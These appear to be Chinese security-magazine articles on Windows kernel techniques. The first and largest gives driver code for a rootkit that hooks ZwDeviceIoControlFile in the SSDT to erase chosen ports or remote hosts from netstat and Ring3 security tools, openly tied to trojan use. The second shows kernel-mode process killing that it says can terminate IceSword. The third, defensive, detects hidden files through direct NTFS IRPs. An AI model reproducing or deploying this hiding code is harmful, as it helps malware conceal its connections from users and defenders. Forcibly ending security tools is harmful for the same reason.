以前给大家介绍过 RootKit 文件隐藏的方法，这次给大家介绍 RootKit 端口隐藏的实现。其实很多木马，例如 ByShell 的端口隐藏，都是使用此方法实现的。

## 原理

《在 NT 系统中让自己消失》一文中提到了如 netstat 之类的程序都是通过 AllocateAndGetTcpTableFromStack 等 API 来查询端口信息的。需要注意的是，每个函数有个 ExTable 扩展表，这个表的区别是带进程的 PID，可以通过 PID 来判断所属进程，我们下面会进行详细介绍。

根据文中所说，这几个 API 最后定位在 iphlpapi.dll 上，而这个动态库调用 NtDeviceIoControlFile 这个 NativeAPI 来进入内核查询信息，所以我们还是用最简单有效的 SSDT HOOK 来挂钩此函数。当函数返回时，我们修改返回信息，把自己的端口抹掉。这和我以前的《RootKit 隐藏文件》一文的思路类似，其实 SSDT Hook 的思路基本都是这样的。

## 实现

- 本文根据需要，我采用了以下 3 种隐藏模式。
  1. 通过本地端口隐藏，即输入本地已经监听的端口，如木马的 8000 等端口实现隐藏，隐藏后“netstat an”和“ano”都无法查看到。另外，一些 Ring3 下的安全工具，如 360 安全卫士等也无法查看到。
  2. 通过远程地址隐藏，这个用在木马上比较管用，即隐藏针对某一 IP 的所有链接，如连接到 218.88.88.88 的所有链接，隐藏后和上面效果一样。
  3. 通过远程端口隐藏，输入远程某一端口，如 IIS 的 80，启动隐藏后，连接到远程端口为 80 的所有链接都被隐藏，效果也和上面一样。

下面我们结合代码实现来进行具体分析。

```cpp
NTSTATUS DriverEntry(
    IN PDRIVER_OBJECT DriverObject,
    IN PUNICODE_STRING RegistryPath
)
{
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PDEVICE_OBJECT DeviceObject = NULL;
    UNICODE_STRING ntDeviceName, dosDeviceName;
    BOOLEAN fSymbolicLink = FALSE;

    RtlInitUnicodeString(&ntDeviceName, NT_DEVICE_NAME);
    // 创建设备对象
    ntStatus = IoCreateDevice(
        DriverObject,
        0, // DeviceExtensionSize
        &ntDeviceName, // DeviceName
        FILE_DEVICE_UNKNOWN, // DeviceType
        0, // DeviceCharacteristics
        FALSE, // Exclusive
        &DeviceObject // [OUT]
    );

    if (!NT_SUCCESS(ntStatus)) {
        KdPrint(("创建设备对象失败:%X\n", ntStatus));
        goto __failed;
    }

    RtlInitUnicodeString(&dosDeviceName, DOS_DEVICE_NAME);
    ntStatus = IoCreateSymbolicLink(&dosDeviceName, &ntDeviceName);
    if (!NT_SUCCESS(ntStatus)) {
        KdPrint(("创建符号链接失败:%X\n", ntStatus));
        goto __failed;
    }

    fSymbolicLink = TRUE;
    // 挂各分发
    DriverObject->MajorFunction[IRP_MJ_CREATE] = HideProtDispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_CLOSE] = HideProtDispatchCreateClose;
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = HideProtDispatchDeviceControl;
    DriverObject->DriverUnload = OnUnload;
}
```

```cpp
// ------ 修改 SSDT ------ [5/22/2008 Admin]
m_MDL = MmCreateMdl(
    NULL,
    KeServiceDescriptorTable.ServiceTableBase,
    KeServiceDescriptorTable.NumberOfServices * 4
);
if (!m_MDL)
    return STATUS_UNSUCCESSFUL;

// 非分页内存
MmBuildMdlForNonPagedPool(m_MDL);
m_MDL->MdlFlags = m_MDL->MdlFlags | MDL_MAPPED_TO_SYSTEM_VA;

// 锁定
m_Mapped = MmMapLockedPages(m_MDL, KernelMode);
HOOK_SYSCALL(ZwDeviceIoControlFile, NewZwDeviceIoControlFile, OldZwDeviceIoControlFile);

KdPrint(("驱动启动成功...\n"));
return ntStatus;

__failed:
if (fSymbolicLink)
    IoDeleteSymbolicLink(&dosDeviceName);
if (DeviceObject)
    IoDeleteDevice(DeviceObject);
return ntStatus;
}
```

```cpp
{
    HideType = 1;
    memcpy(&LocalPort, lpInBuffer, sizeof(ULONG));
    KdPrint(("设置为本地端口模式...%ld\n", LocalPort));
    break;
}
case IOCTL_SET_RHOST_CONTROL:
{
    HideType = 2;
    memcpy(&RemoteHost, lpInBuffer, sizeof(ULONG));
    KdPrint(("设置为远程地址模式...0x%x\n", RemoteHost));
    break;
}
case IOCTL_SET_RPORT_CONTROL:
{
    HideType = 3;
    memcpy(&RemotePort, lpInBuffer, sizeof(ULONG));
    KdPrint(("设置为远程端口模式...%ld\n", RemotePort));
    break;
}
default:
    Irp->IoStatus.Status = STATUS_INVALID_PARAMETER;
    break;
}
ntStatus = Irp->IoStatus.Status;
IoCompleteRequest(Irp, IO_NO_INCREMENT);
return ntStatus;
}
```

入口函数基本都是固定样式，因为这里我需要和 Ring3 程序通讯，所以建立了一个设备对象。另外，后半部分我采用 MDL 来设置内存可写，以修改 SSDT 表。

IRP_MJ_CREATE 和 IRP_MJ_CLOSE 的没什么好说的，但请注意我还设置了 IRP_MJ_DEVICE_CONTROL 例程，这个 IRP 是用户模式程序调用 DeviceIoControl 时产生的，这个 API 我以前已经介绍过了，就不浪费篇幅了。一般驱动都是用这个方法和用户模式程序通讯的，下面看看我写的这个处理例程。

在这段代码中，我用 HideType 这个变量来保存隐藏的类型，以实现上面说的三种隐藏方法。设置好了隐藏的类型和相关数据后，下面再来看看具体的隐藏处理部分是怎么实现的。

```cpp
// 设备通讯
NTSTATUS HideProtDispatchDeviceControl(IN PDEVICE_OBJECT DeviceObject, IN PIRP Irp)
{
    NTSTATUS ntStatus;
    PIO_STACK_LOCATION IrpStack = IoGetCurrentIrpStackLocation(Irp);
    PVOID lpInBuffer = NULL;
    ULONG nInBufferSize, nOutBufferSize, dwIoControlCode;

    Irp->IoStatus.Status = STATUS_SUCCESS;
    Irp->IoStatus.Information = 0;

    // 获得输入缓冲区首地址
    lpInBuffer = Irp->AssociatedIrp.SystemBuffer;
    nInBufferSize = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
    nOutBufferSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
    dwIoControlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;

    switch (dwIoControlCode)
    {
    case IOCTL_SET_LOCAL_CONTROL:
        ...
```

```cpp
NTSTATUS NTAPI NewZwDeviceIoControlFile(
    IN HANDLE FileHandle,
    IN HANDLE Event OPTIONAL,
    IN PIO_APC_ROUTINE ApcRoutine OPTIONAL,
    IN PVOID ApcContext OPTIONAL,
    OUT PIO_STATUS_BLOCK IoStatusBlock,
    IN ULONG IoControlCode,
    IN PVOID InputBuffer OPTIONAL,
    IN ULONG InputBufferLength,
    OUT PVOID OutputBuffer OPTIONAL,
    IN ULONG OutputBufferLength
)
{
    TCP_REQUEST_QUERY_INFORMATION_EX req;
    ULONG NumCount = 0;
    ULONG i = 0;
    TCPAddrEntry* TcpTable = NULL;
    TCPAddrExEntry* TcpTableEx = NULL;

    // 调用旧函数
    NTSTATUS ntStatus = ((ZWDEVICECONTROLFILE)OldZwDeviceIoControlFile)(
        FileHandle,
        ...
    );
```

## 系统核心类

```cpp
Event,
ApcRoutine,
ApcContext,
IoStatusBlock,
IoControlCode,
InputBuffer,
InputBufferLength,
OutputBuffer,
OutputBufferLength);

// 判断是否为查询 TCP 连接信息
if (IoControlCode != IOCTL_TCP_QUERY_INFORMATION_EX)
    return ntStatus;

// 原函数返回不成功
if (!NT_SUCCESS(ntStatus))
    return ntStatus;

// 获得输入缓冲区
memcpy(&req, InputBuffer, sizeof(TDIObjectID));
if ((req.ID.toiEntity.tei_entity == CO_TL_ENTITY)
    && (req.ID.toiEntity.tei_instance == 0)
    && (req.ID.toi_class == INFO_CLASS_PROTOCOL)
    && (req.ID.toi_type == INFO_TYPE_PROVIDER)) {

    // 普通查询
    if (req.ID.toi_id == TCP_MIB_ADDRTABLE_ENTRY_ID) {
        NumCount = IoStatusBlock->Information / sizeof(TCPAddrEntry);
        TcpTable = (TCPAddrEntry*)OutputBuffer;

        // 循环链表，找到并修改需要隐藏的端口
        for (i = 0; i < NumCount; i++) {
            // 模式为本地端口
            if (HideType == 1) {
                if (ntohs(TcpTable[i].tae_ConnLocalPort) == LocalPort) {
                    KdPrint(("普通隐藏[本地端口] %d\n", ntohs(TcpTable[i].tae_ConnLocalPort)));
                    memcpy((TcpTable + i), (TcpTable + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrEntry)));
                    NumCount--;
                    i--;
                }
            }

            // 模式为远程地址
            if (HideType == 2) {
                if (TcpTable[i].tae_ConnRemAddress == RemoteHost) {
                    KdPrint(("普通隐藏[远程地址] 0x%x\n", TcpTable[i].tae_ConnRemAddress));
                    memcpy((TcpTable + i), (TcpTable + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrEntry)));
                    NumCount--;
                    i--;
                }
            }

            // 模式为远程端口
            if (HideType == 3) {
                if (ntohs(TcpTable[i].tae_ConnRemPort) == RemotePort) {
                    KdPrint(("普通隐藏[远程端口] %d\n", ntohs(TcpTable[i].tae_ConnRemPort)));
                    memcpy((TcpTable + i), (TcpTable + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrEntry)));
                    NumCount--;
                    i--;
                }
            }
        }
    }
}
```

```cpp
if (HideType == 3) {
    if (ntohs(TcpTable[i].tae_ConnRemPort) == RemotePort) {
        KdPrint(("普通隐藏[远程端口] %d\n", ntohs(TcpTable[i].tae_ConnRemPort)));
        memcpy((TcpTable + i), (TcpTable + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrEntry)));
        NumCount--;
        i--;
    }
}

IoStatusBlock->Information = NumCount * sizeof(TCPAddrEntry);
}

// 带进程 PID 的查询
if (req.ID.toi_id == TCP_MIB_ADDRTABLE_ENTRY_EX_ID) {
    NumCount = IoStatusBlock->Information / sizeof(TCPAddrExEntry);
    TcpTableEx = (TCPAddrExEntry*)OutputBuffer;

    // 循环链表
    for (i = 0; i < NumCount; i++) {
        // 为本地端口模式
        if (HideType == 1) {
            if (ntohs(TcpTableEx[i].tae_ConnLocalPort) == LocalPort) {
                KdPrint(("扩展隐藏[本地端口] %d\n", ntohs(TcpTableEx[i].tae_ConnLocalPort)));
                memcpy((TcpTableEx + i), (TcpTableEx + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrExEntry)));
                NumCount--;
                i--;
            }
        }

        // 当前为远程地址模式
        if (HideType == 2) {
            if (TcpTableEx[i].tae_ConnRemAddress == RemoteHost) {
                KdPrint(("扩展隐藏[远程地址] 0x%x\n", TcpTableEx[i].tae_ConnRemAddress));
                memcpy((TcpTableEx + i), (TcpTableEx + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrExEntry)));
                NumCount--;
                i--;
            }
        }

        // 远程端口模式
        if (HideType == 3) {
            if (ntohs(TcpTableEx[i].tae_ConnRemPort) == RemotePort) {
                KdPrint(("扩展隐藏[远程端口] %d\n", ntohs(TcpTableEx[i].tae_ConnRemPort)));
                memcpy((TcpTableEx + i), (TcpTableEx + i + 1), ((NumCount - i - 1) * sizeof(TCPAddrExEntry)));
                NumCount--;
                i--;
            }
        }
    }
}
```

```c
...
IoStatusBlock->Information = NumCount * sizeof(TCPAddrExEntry);
...
return ntStatus;
```

这里也就是我们隐藏端口的核心了。大致可以看出来，先调用一次旧的函数，查询到端口信息后，判断是否为 `IOCTL_TCP_QUERY_INFORMATION_EX`。如果不是则直接返回；如果是则继续分析。

```c
memcpy(&req, InputBuffer, sizeof(TDIObjectID));
```

其形参里有个 `InputBuffer`，可知这是 Ring3 程序调用时发送来的。复制到 `req` 后，再判断是否为查询端口请求。`req.ID.toi_id` 有两个关键值：`TCP_MIB_ADDRTABLE_ENTRY_ID` 与 `TCP_MIB_ADDRTABLE_ENTRY_EX_ID`（后者包含 PID），两个都要处理，否则会出现“查不到”或“半暴露”的情况。

```c
NumCount = IoStatusBlock->Information / sizeof(TCPAddrEntry);
TcpTable = (TCPAddrEntry*)OutputBuffer;
for (i = 0; i < NumCount; i++) {
    // HideType == 1: 按本地端口隐藏
    // HideType == 2: 按远程地址隐藏
    // 匹配后 memcpy 覆盖后续项，NumCount--，i--
}
```

```c
...
// 模式为远程端口
if (HideType == 3) {
    if (ntohs(TcpTable[i].tae_ConnRemPort) == RemotePort) {
        memcpy((TcpTable+i), (TcpTable+i+1), ((NumCount-i-1)*sizeof(TCPAddrEntry)));
        NumCount--;
        i--;
    }
}
IoStatusBlock->Information = NumCount * sizeof(TCPAddrEntry);
```

这里很简单，`OutputBuffer` 就是查询到的端口信息保存处。通过 `HideType` 的不同取值实现不同隐藏方式。`TcpTable` 的定义如下。

```c
typedef struct TCPAddrEntry {
    ULONG tae_ConnState;
    ULONG tae_ConnLocalAddress;
    ULONG tae_ConnLocalPort;
    ULONG tae_ConnRemAddress;
    ULONG tae_ConnRemPort;
} TCPAddrEntry;
```

可以看到结构中包含连接状态、本地地址、远程地址、本地端口、远程端口。通过判断不同字段即可实现不同隐藏。`TCPAddrExEntry` 结构类似，但多一个 PID，可据此隐藏指定 PID 的所有连接。实现方式是在遍历表项时，命中后用后续数据覆盖当前项，缩小表大小并返回，这样 Ring3 查询就看不到被隐藏项。

文末总结：作者还编写了简单控制程序用于控制驱动隐藏端口，并表示将继续研究 RootKit。另注：文中涉及代码请见随书光盘。

### Ring0 中强行结束进程

文/牵着蜗牛去散步

进程强行结束在安全方面用到的比较多，尤其是反病毒、反流氓软件。大家都知道，在 Ring3 中最早使用的是 `TerminateProcess()` 这个 Win32 API，配合 `SE_DEBUG` 权限可以结束掉大部分的进程，包括 Win32 系统服务。后来又出现了关联工作对象的方法，通过结束工作对象 `TerminateJobObject()` 来强行结束进程。今天我们就谈谈 Ring0 中都有哪些常用的方法。

要了解底层的东西，我们自然离不开调试器。SoftICE 虽然好用，但已经不再更新了，对于新的 Vista 操作系统还是有些无奈，就用微软给我们准备的免费 GUI 内核调试器 WinDbg 来做分析吧。WinDbg 可以工作在 Ring3 中，使用比较稳定方便，同时 WinDbg 和 kd 可以分析 Windows 的蓝屏 Dump 文件。使用 kd 本地内核模式调试，配合 Windows 符号可以轻松了解 Windows NT 内核的秘密。

很多人感觉在 Ring0 中使用 `ZwTerminateProcess` 比较简单，但是 SSDT 比较容易被 Hook。通过真实的 SSDT 地址来结束进程也是一种好的方法，但是 `ZwTerminateProcess` 还是层面比较高的东西，同时不能算是暴力结束。用过 IceSword 的读者，一定还记得可以把 Windows 进程杀得仅剩 3 个吧？那么 IceSword 是如何做到的呢？Win32 子系统 `smss.exe`（Session Manager Sub System）又是如何结束的呢？

我们演示一下 `ZwTerminateProcess` 结束进程的方法。因为结束进程前先要打开进程的句柄，所以需要用到 `ZwOpenProcess` 函数，其结构定义如下：

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwOpenProcess(
  OUT PHANDLE ProcessHandle,
  IN ACCESS_MASK DesiredAccess,
  IN POBJECT_ATTRIBUTES ObjectAttributes,
  IN PCLIENT_ID ClientId OPTIONAL
);
```

`ZwOpenProcess` 中的第 1 个参数是进程句柄；第 2 个参数为请求的权限，因为要结束进程，我们就用最大的 `PROCESS_ALL_ACCESS` 权限；第 3 个为对象属性，一般创建一个新的就可以了；最后一个就是进程 ID，我们可以通过 Ring3 传入一个 PID。

```c
NTSYSAPI
NTSTATUS
NTAPI
ZwTerminateProcess(
  IN HANDLE ProcessHandle OPTIONAL,
  IN NTSTATUS ExitStatus
);
```

而 `ZwTerminateProcess` 的使用方法就更简单了，第 1 个参数为进程句柄，就是 `ZwOpenProcess` 打开的；第 2 个参数为进程退出代码，正常的退出代码为 0。如果我们需要结束 PID 为 1024 的进程，其完整的代码如下：

```c
NTSTATUS status = STATUS_SUCCESS;
OBJECT_ATTRIBUTES ObjectAttributes;
HANDLE hProcess = NULL;
CLIENT_ID ClientId;
ULONG dwPid = 1024; // PID
InitializeObjectAttributes(&ObjectAttributes, 0, 0, 0, 0);
ClientId.UniqueProcess = (HANDLE)dwPid;
ClientId.UniqueThread = 0;
status = ZwOpenProcess(&hProcess,
  PROCESS_ALL_ACCESS, &ObjectAttributes, &ClientId);
ZwTerminateProcess(hProcess, 0);
ZwClose(hProcess);
DbgPrint("%x", status);
```

> PsTerminateProcess 没有被直接导出，所以需要安装 Windows 系统符号才可以正常反编译；目前在微软官方网站可以下载到自己当前操作系统的符号 Symbol 文件（Win2000/XP/2003/Vista/2008 等），注意对应 Service Pack 版本以及 x86、x64 区分。

在 IceSword 中，结束进程使用的并不是上面讲到的 `ZwTerminateProcess`，而是 Psp 系列的 API，主要有 `PspTerminateProcess` 和 `PspTerminateThreadByPointer` 两种方法。但是 Psp 系列的 API 和 Zw 相比有个棘手的问题，就是没有被 `ntosxxx` 直接导出，仅仅知道了结构还是无法正常编译的，所以我们要自己查找它的内存地址，来执行 `PspTerminateProcess` 或 `PspTerminateThreadByPointer` 结束进程。`PspTerminateProcess` 的原形如下：

```c
NTSYSAPI
NTSTATUS
NTAPI
PspTerminateProcess(
    IN PEPROCESS Eprocess,
    IN NTSTATUS ExitStatus
);
```

`PspTerminateProcess` 第 1 个参数为 `PEPROCESS Eprocess`，我们可以通过 `PsLookupProcessByProcessId` 这个函数来获取一个进程的 `PEPROCESS` 结构，而 `PspTerminateProcess` 第 2 个参数 `ExitStatus` 就是进程的退出代码，一般成功为 0 即可。

```c
NTSYSAPI
NTSTATUS
NTAPI
PsLookupProcessByProcessId(
    IN ULONG ulProcId,
    OUT PEPROCESS *pEProcess
);
```

既然 `PspTerminateProcess` 没有在 `ntosxxx.lib` 中导出，我们就自己搜索获得地址来实现吧。在 WinDbg 中通过 `u` 命令反编译 `PspTerminateProcess`，可以看到在当前 Windows Server 2003 Service Pack 1（3790）操作系统上的地址为 `0x80943690`。

```asm
lkd> u PspTerminateProcess
nt!PspTerminateProcess:
80943690 8bff            mov edi,edi
80943692 55              push ebp
80943693 8bec            mov ebp,esp
80943695 56              push esi
80943696 8b7508          mov esi,dword ptr [ebp+8]
80943699 57              push edi
8094369a 8dbe40020000    lea edi,[esi+240h]
...
```

我们通过 WinDbg 获取不同系统的内存地址，使用硬编码的方式可以获取 Windows 2000、Windows XP、Windows 2003、Vista、Windows 2008 操作系统上的内存地址。但这个工程量是巨大的，比如 Win2000 加上 4 个 SP 补丁包为 5 个版本，XP 最近出了 SP3 也有 4 个版本，2003 最新的为 SP2 共 3 个版本，Vista 也出了 SP1 两个版本，加上 Win2008 一共是 15 个版本，所以我们还是动态搜索比较现实。

一般常见的是在内存中搜索或解析 `ntosxxx` 文件结构，这两种方法都是通过特征暴力查找的。如果采用内存搜索的方法会很容易产生 BSOD 蓝屏现象，并且地址被 Patch 过结果就不准确了。内存暴力搜索没有什么高难度，和过去我们搜索 `PsCidTable` 一样，内核地址都是从 `0x80000000` 开始，到 `0x90000000` 结束的，配合上次提到的 `Try` 和 `MmIsAddressValid` 来最大限度地阻止 BSOD 发生。`PspTerminateProcess` 的特征值我们可以通过 WinDbg 的 `dd` 命令来得到，具体如下：

```text
lkd> dd PspTerminateProcess
80943690  8b55ff8b 758b56ec be8d5708 00000240
809436a0  200147f6 868d1274 00000164 62685650
809436b0  e8809436 ffffefcf f058086a 006a0709
809436c0  0bd4e856 f88b0000 2074ff85 75ff006a
809436d0  fde8570c 57ffffff 0bbce856 f88b0000
809436e0  e875ff85 00cc8639 06740000 e9bae856
809436f0  335ffffe c25d5cc0 cccc0008 cccccccc
80943700  8b55ff8b 565351ec 24358b64 57000001
```

直接在内存中搜索 `0x8b55ff8b 0x758b56ec 0xbe8d5708 0x00000240` 这 4 段就可以了，但从稳定性和各个方面考虑，还是推荐解析 `ntosxxx.exe` 文件比较稳定安全。方法可以参考 2008 年第 5 期《黑防》上我写的《Ring3 下获取原始的 SSDT》一文。首先通过 `ZwQuerySystemInformation` 配合 `SystemModuleInformation` 参数枚举出系统的模块地址，然后循环搜索和上述的 4 个特征地址进行比对。比较简单，这里就不再赘述了。实现自己的 `myPspTerminateProcess` 函数，结束进程的演示代码如下：

```c
ULONG ProcessId = 1024; // PID
PEPROCESS Eprocess = NULL;
NTSTATUS Status = PsLookupProcessByProcessId(ProcessId, &Eprocess);
if (!NT_SUCCESS(Status)) {
    DbgPrint("Failed to lookup process 0x%x, status %8.8x\n", ProcessId, Status);
    return Status;
}
DbgPrint("Lookup of process 0x%x, PEPROCESS at %8.8x\n", ProcessId, Eprocess);
Status = myPspTerminateProcess(Eprocess, STATUS_SUCCESS);
if (!NT_SUCCESS(Status)) {
    DbgPrint("Failed to ps 0x%x, status %8.8x\n", ProcessId, Status);
    return Status;
}
DbgPrint("Process 0x%x terminated\n", ProcessId);
return STATUS_SUCCESS;
```

结束进程除了 `PspTerminateProcess` 外，还有更好的 `PspTerminateThreadByPointer`。通过命令层层反编译 `PspTerminateProcess`，我们可以看到结束进程依次通过执行 `PspCatchCriticalBreak`、`PsGetNextProcessThread`、`ObClearProcessHandleTable`、`NtTerminateThread`、`PsTerminateSystemThread`、`PspShutdownThread`、`PsShutdownSystem` 来完成。其实 IceSword 作者过去也说过，进程结束可以通过结束进程中的所有线程来达到；如果让进程暂停，可以通过挂起进程中的线程。

即使是比较底层的 `PspTerminateProcess` 或 `PspTerminateThreadByPointer`，结束进程仍然存在很多问题，比如 KV2008 的 inline Hook、DKOM 上做手脚，仍然无法结束掉，但对于市面上的病毒来说足够用了，结束 IceSword 也是没有问题的。通往 Windows 内核深处还有很远的路要走，由于公开的资料不是很多，所以自己模拟一些更底层的函数还是很困难的。唯一不错的参考资料就是 ReactOS 的开源代码有些参考价值，ReactOS 很多代码都是从过去被泄露的 Windows NT4.0 基础衍变过来的，还有就是过去泄露的部分 Win2000 源代码。本文就讲到这里了，以后再给大家介绍更强的方法来结束进程。

### 直接调用 NTFS 文件驱动检测隐藏文件

文/pixiebox

如果不考虑直接读取扇区分析文件系统来检测隐藏文件的话，那么直接向建立在卷设备驱动上的文件系统驱动发送 IRP，是在文件系统上最底层的检测方法了。IceSword（不考虑 FileReg 这个插件）就是直接向最底层的文件驱动发送 IRP 来检测隐藏文件的，这种检测方法使我们能够检测出 SSDT Hook、文件过滤驱动所隐藏的文件。在上期的文章中，我们实现了通过读取扇区直接分析 NTFS 文件系统来检测隐藏文件的方法；这次我们直接向 NTFS 发送 IRP 来检测隐藏文件，比上一次简单多了，因为我们不需要了解文件系统的格式，NTFS 都帮我们实现了。把这两种方法集合在一起，再加上去除一些 Rootkit Hook（如 `IoCompleteRequest`、ntfs dispatch Hook）就能够实现一个完整的检测文件驱动了。

那么，我们应该如何调用 NTFS 文件驱动呢？首先我们必须获得 NTFS 的 driver object。

```c
VOID GetNtfsDriver()
{
    NTSTATUS Status;
    UNICODE_STRING NtfsName;
    PDRIVER_OBJECT NtfsObject;
    PDEVICE_OBJECT DeviceObject;
}
```

```c
WCHAR* NameTmp;
RtlInitUnicodeString(&NtfsName, L"\\FileSystem\\Ntfs");
Status = ObReferenceObjectByName(&NtfsName,
    OBJ_CASE_INSENSITIVE, 0, 0, *IoDriverObjectType,
    KernelMode, NULL, &NtfsObject);
if (Status < STATUS_SUCCESS) return;
DbgPrint("Get Ntfs Driver object\n");
DeviceObject = NtfsObject->DeviceObject;
g_NtfsDrvObj = NtfsObject;
NtfsDirCtlDispatch = (ULONG)g_NtfsDrvObj->
    MajorFunction[IRP_MJ_DIRECTORY_CONTROL];
return;
```

NTFS 文件系统驱动的 OBJECT 名称是“`\\FileSystem\\Ntfs`”，我们调用 `ObReferenceObjectByName` 这个函数来获取它的 driver object，接着继续获取 `IRP_MJ_DIRECTORY_CONTROL` 的 Dispatch 函数，它是我们获取文件信息的 NTFS 函数地址。这样我们就完成了驱动的初始化操作返回，等待用户层函数发送 `IOCTL_RD_SHOW_DIR` 控制消息来显示文件目录中的所有文件。

```c
CtlCode = IrpStack->Parameters.DeviceIoControl.IoControlCode;
InSize = IrpStack->Parameters.DeviceIoControl.InputBufferLength;
```

### 驱动目录查询实现代码与说明

```c
OutSize = IrpStack->Parameters.DeviceIoControl.OutputBufferLength;
switch (CtlCode) {
case IOCTL_RD_SHOW_DIR:
{
    DbgPrint("IoCtl: Get dir information: %x, %x\n", InSize, OutSize);
    // 我们必须检测 InSize 的长度
    if (InSize < 6 || InSize > 256) {
        DbgPrint("Invalid input buffer size: %x\n", InSize);
        Status = STATUS_INFO_LENGTH_MISMATCH;
        break;
    }

    DataPtr = (ULONG*)Irp->AssociatedIrp.SystemBuffer;
    DirNameLength = *DataPtr;
    // 4 for DirNameLength, 1 for null.
    // 我们必须检测 DirNameLength 的长度
    if (DirNameLength < 6 || InSize != DirNameLength + 5) {
        DbgPrint("Invalid name buffer size: %x, %x\n", InSize, DirNameLength);
        Status = STATUS_INFO_LENGTH_MISMATCH;
        break;
    }

    DataPtr++;
    DirPtr = (CHAR*)DataPtr;
    DirPtr[DirNameLength] = (CHAR)NULL;
    strcpy(DirName, DirPtr);

    // 检测是否获得 NTFS driver object.
    if (g_NtfsDrvObj) {
        Irp->IoStatus.Information =
            GetDirInformation(DirName, DirNameLength,
                              Irp->AssociatedIrp.SystemBuffer, OutSize);

        if (Irp->IoStatus.Information > OutSize) {
            Irp->IoStatus.Information = 4;
        }
    }
    break;
}
default:
    Status = STATUS_INVALID_DEVICE_REQUEST;
    break;
}
```

```c
HANDLE DirHandle;
KEVENT WaitEvent;
PIRP QueryIrpPtr = NULL;
NTSTATUS QueryStatus, WaitStatus;
ULONG ReadLength, *RtnLengthPtr = (ULONG*)Buffer;
CHAR *RtnBuffer = Buffer + 4;
FILE_OBJECT *FileObjectPtr;
NTSTATUS Status;
IO_STATUS_BLOCK QueryIrpIoStatusBlock;
PIO_STACK_LOCATION IrpSp;
MDL *MdlPtr = NULL;
UCHAR *ReadBuffer = NULL;
UINT Loop = 10;
WCHAR DirNameW[256];
DEVICE_OBJECT *DeviceObject;
BOOLEAN FirstScan = TRUE;
CHAR Flag;

*RtnLengthPtr = 4;
DirNameW[0] = L'\0';
ReadLength = mbstowcs(DirNameW, DirName, NameLength);
if (ReadLength != NameLength) {
    DbgPrint("%s\n", DirName);
    return 0;
}
DirNameW[ReadLength] = L'\0';
DbgPrint("Convert Directory name: %ws\n", DirNameW);

DirHandle = CreateFile(DirNameW, GENERIC_READ,
    FILE_SHARE_READ | FILE_SHARE_WRITE, FILE_OPEN);
if (DirHandle == NULL) return 0;
DbgPrint("Create Directory\n");

ReadLength = 1024;
Status = ObReferenceObjectByHandle(DirHandle, 0,
    *IoFileObjectType, KernelMode, (VOID*)&FileObjectPtr, NULL);

// Dereference FileHandle.
CloseFile(DirHandle);

if (g_NtfsDevObj == NULL &&
   (Status != STATUS_SUCCESS ||
    FileObjectPtr->Vpb == NULL ||
    FileObjectPtr->Vpb->DeviceObject == NULL)) {
    if (Status == STATUS_SUCCESS) {
        ObDereferenceObject(FileObjectPtr);
    }
    return 0;
}
...
```

用户层程序发送控制消息，输入数据的开始 4 个字节是检测的文件目录的字符长度，接着是目录的名称。在检测了数据的合理性后，再调用驱动的主核心函数 `GetDirInformation` 来获取数据。值得注意的是：为了安全，我们这里必须检查 `InSize` 输入长度是否大于 256、文件目录名长度是否满足与用户层传送过来的 `DirNameLength` 对应关系（目录长度 + NULL）。这样 `DirNameLength` 的长度就不会超过 251，之后调用 `mbstowcs` 函数就不会溢出了。

这段代码调用 `mbstowcs` 函数将文件名转换成宽字符，调用 `CreateFile` 打开文件，接着调用 `ObReferenceObjectByHandle` 转换 `Handle` 到 `File Object`。如果之前调用中没有获得 NTFS 的 `Device Object`，并且这次调用 `ObReferenceObjectByHandle` 获取 `File Object` 失败的话，就直接失败返回。返回值是 0 代表调用失败；返回值是 4 代表用户传送过来的输出缓冲区太小。

```c
ULONG GetDirInformation(CHAR* DirName, ULONG NameLength, CHAR* Buffer, ULONG BufferLength)
{
    ...
}
```

```c
ULONG GetDirInformation(CHAR* DirName, ULONG NameLength, CHAR* Buffer, ULONG BufferLength)
{
    ...
    DbgPrint("Got File Object\n");
}
```

```c
if (g_NtfsDevObj == NULL) {
    if (isValidNtfsDevice(FileObjectPtr->Vpb->DeviceObject)) {
        ObDereferenceObject(FileObjectPtr);
        return 0;
    }
}

DeviceObject = g_NtfsDevObj;
DbgPrint("Got ntfs device Object\n");
KeInitializeEvent(&WaitEvent, NotificationEvent, FALSE);

ReadBuffer = AllocateNonPagedPool(ReadLength);
if (ReadBuffer == 0) {
    ObDereferenceObject(FileObjectPtr);
    return 0;
}

MdlPtr = AllocateMdl(ReadBuffer, ReadLength);
if (MdlPtr == NULL) {
    FreePool(ReadBuffer);
    ObDereferenceObject(FileObjectPtr);
    return 0;
}
```

```c
IrpSp->Parameters.Others.Argument2 = 0;
// File Name
IrpSp->Parameters.Others.Argument3 = (PVOID)FileFullDirectoryInformation;
// FileInformationClass
IrpSp->Parameters.Others.Argument4 = 0;
// File index
IrpSp->Flags = SL_RESTART_SCAN; // or 0
```

其中，Argument1 是 IRP 输出缓冲区的大小，Argument2 是写入指定文件名，这可以用于检查文件是否存在。Argument3 是我们选择所接收的数据结构的格式，这里选择 `FileFullDirectoryInformation`。Flag 是 `SL_RESTART_SCAN` 的话，将会重新开始从第一个文件开始传送数据结构；如果是 0 的话，就会在上次的基础上继续传送。好了，建立了 IRP 后，我们就要发送 IRP 请求了，继续看以下代码。

